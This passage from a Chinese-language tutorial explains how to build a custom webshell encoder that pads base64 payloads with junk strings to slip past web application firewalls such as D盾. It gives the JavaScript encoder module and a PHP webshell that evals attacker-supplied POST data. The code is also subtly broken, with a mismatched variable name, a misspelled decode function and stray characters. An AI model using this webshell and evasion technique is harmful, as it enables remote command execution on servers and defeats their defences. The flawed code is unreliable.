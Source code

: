 
请求包中的`test`参数也被base64编码，已经没有明文的php代码了。这样就实现了一个简单的编码器，但是这样的编码器并不能bypass waf，因为有些waf会对请求的数据进行base64解码，从而就发现了我们的payload。没关系，既然了解了编码器的原理，那我们就可以变幻出各种payload来绕过waf。


例如：

- 为payload的base64编码后的数据前后添加几个字符串，让waf解码base64失败
- 先用rot13加密payload然后再base64编码
- 先用base64编码再使用hex编码

总之，你可以天马行空，使用各种编码组合来伪装自己的payload，任由waf多强大，也不可能全部解密出payload。


下面就写一个自定义的编码器来绕过D盾：


```json
_'use strict';

/
 @param  {String} pwd   连接密码
 @param  {Array}  data  编码器处理前的 payload 数组
 @return {Array}  data  编码器处理后的 payload 数组
/
module.exports = (pwd, data, ext={}) => {
  // ##########    请在下方编写你自己的代码   ###################
  // 原有的 payload 在 data['']中
  // 取出来之后，转为 base64 编码并放入 randomID key 下
  data[pwd] = Buffer.from(data['']).toString('base64');
  
  //base64编码的前后再拼接随意定义的一个字符串
  data[pwd] = "lwk02nm" + data[pwd];
  data[pwd] += "lwk02nm";
  
  // ##########    请在上方编写你自己的代码   ###################

  // 删除  原有的payload
  delete data[''];
  // 返回编码器处理后的 payload 数组
  return data;
}_

```


然后上传到服务器的webshell就需要写成下面这样：


```php
<?php
$st = $_POST['test'];_
$sa = str_replace('lwk02nm','',$_st);
eval(base64decode($sa));
?>_

```
